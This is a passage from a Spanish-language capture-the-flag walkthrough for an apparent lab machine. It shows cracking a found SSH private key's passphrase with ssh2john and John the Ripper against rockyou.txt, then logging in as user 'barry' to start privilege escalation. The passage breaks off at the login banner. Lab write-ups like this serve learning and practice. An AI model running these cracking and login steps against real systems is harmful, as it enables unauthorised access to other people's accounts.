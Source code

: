 -   Ya tendriamos la ssh de ``barry`` 

###  CRACKING IRSA	
- Tenemos la id_rsa, la cual nos permitira logearnos a travez de ssh
```bash
Sie7e>$ ssh -i id_rsa barry@<IP target>
Enter passphrase for key 'id_rsa': 
```
- Nos pide la contraseña del id_rsa mas no del usuario, entonces usaremos ssh2jhon.py para obtener el hash y luego crackear con john y obtener la contarseña
 ```bash
 Sie7e>$ python3 ssh2john.py id_rsa > hash
 ```
 - Ahora ya podemos usar john para crackear el hash y obtener la contraseña del archivo id_rsa
 ```bash
 Sie7e>$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
********       (id_rsa)
1g 0:00:00:04 DONE (2021-06-12 03:34) 0.2277g/s 3266Kp/s 3266Kc/s 3266KC/s     1990..*7¡Vamos!
Session completed
 ```

### ESCALAR PRIVILEGIOS

- Ahora a logearnos por ssh

    ```bash
    Sie7e>$ ssh -i irsa barry@<IP target> 
    The authenticity of host <IP target> (<IP target>) cant be established.
    ECDSA key fingerprint is SHA256:ZZet5QyZ8Pn5+08sVBFZdDzP/6yZEQeNpRZEd5DLLks.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '<IP target>' (ECDSA) to the list of known hosts.
    Enter passphrase for key 'irsa': 
    Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

    34 packages can be updated.
    16 of these updates are security updates.
    To see these additional updates run: apt list --upgradable



    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
